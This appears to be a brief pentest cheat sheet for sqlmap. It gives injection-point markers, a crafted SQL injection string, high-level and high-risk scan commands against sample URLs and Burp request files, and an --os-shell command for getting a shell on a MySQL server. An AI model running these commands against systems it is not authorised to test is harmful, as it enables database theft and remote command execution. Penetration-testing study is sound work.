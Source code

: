 # sqlmap

## result output data file location
~/.local/share/sqlmap/output

## level and risk options
--level 5
--risk 3

## custom injection marker
use an asterisk symbol to mark an injection point in a URL
` http://target.box/vuln.php?a=1&b=* `

### specify exact SQL injection
close out SQL syntax correctly and include injection marker
`',1,1);select 1*---`

## search string response on site for successful injection
--string "successful injection text here"

## Test All (Default Settings)
```bash
-u "http://192.168.0.1/database/inject.php?q=user" --batch
```

## Test All (Default Settings, High Stress)
```bash
-u "http://192.168.0.1/database/inject.php?q=user" --batch --level=5 --risk=3
```

## with burp request Test All (Default Settings)
```bash
--all -r post_request.txt --batch 
```

## with burp request Test All (Default Settings, High Stress)
```bash
--all -r post_request.txt --batch --level=5 --risk=3
```

## with burp request Get A Reverse Shell (MySQL)
```bash
-r post_request.txt --dbms "mysql" --os-shell
```
